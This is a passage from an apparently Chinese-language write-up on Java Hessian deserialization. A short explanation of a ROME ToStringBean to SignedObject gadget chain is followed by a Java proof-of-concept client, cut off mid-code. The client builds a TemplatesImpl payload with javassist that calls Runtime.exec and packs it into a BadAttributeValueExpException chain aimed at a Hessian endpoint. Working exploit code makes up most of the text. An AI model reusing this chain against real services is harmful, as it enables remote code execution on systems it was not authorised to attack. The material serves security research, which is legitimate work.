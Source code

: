 ```java
        return obj;
    }
}
```

也是配合`ROME`去打，`toStringBean`触发`SignedObject#getObject`，进而反序列化`this.content`

这里就是原生反序列化了，而且刚好`SignedObject`的构造方法会帮我们序列化。

```java
import com.caucho.hessian.client.HessianProxyFactory;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import org.taco.hessian.service.Greeting;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.lang.reflect.Field;
import java.security.*;
import java.util.HashMap;


public class Client {
    public static void setFieldValue(Object obj, String fieldName, Object newValue) throws Exception {
        Class clazz = obj.getClass();
        Field field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, newValue);
    }

    public static byte[] getPayload() throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClazz = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClazz);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\"calc\");");
        clazz.addConstructor(constructor);
        return clazz.toBytecode();
    }

    public static void main(String[] args) throws Exception {
        String url = "http://localhost:8080/hessian";

        HessianProxyFactory factory = new HessianProxyFactory();
        Greeting greet = (Greeting) factory.create(Greeting.class, url);

        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{getPayload()});
        setFieldValue(obj, "_name", "p4d0rn");
        ToStringBean bean = new ToStringBean(Templates.class, obj);

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(1);
        setFieldValue(badAttributeValueExpException, "val", bean);

        KeyPairGenerator keyPairGenerator;
        keyPairGenerator = KeyPairGenerator.getInstance("DSA");
```